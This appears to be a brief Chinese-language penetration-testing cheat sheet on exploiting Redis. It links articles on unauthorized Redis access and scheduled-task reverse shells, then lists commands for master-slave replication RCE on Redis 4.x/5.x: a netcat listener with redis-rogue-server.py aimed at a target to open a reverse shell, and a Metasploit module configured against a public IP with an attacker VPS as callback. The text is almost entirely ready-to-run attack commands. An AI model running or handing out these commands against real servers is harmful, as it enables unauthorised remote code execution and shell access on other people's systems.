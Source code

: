 [Redis未授权访问漏洞(windows环境](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484286&idx=1&sn=6250d89d18ea635bda32e815fdcc5f6d)
[Redis未授权计划任务反弹shell](https://zhuanlan.zhihu.com/p/582582342)

# Redis主从复制RCE redis 4.X/5.X

1. by redis-rogue-server.py
```bash
nc -lvvp 6381
python3 redis-rogue-server.py --rhost 192.168.127.129  --rport 6379 --lhost 192.168.127.134 --lport 6381
# reverse shell
# What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.127.134
Reverse server port: 6381
## [i]nteractive shell 也可以
```

2. by msf
```
sudo msfconsole
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS 47.92.135.138
set SRVHOST VPS_IP
set LHOST VPS_IP
exploit
```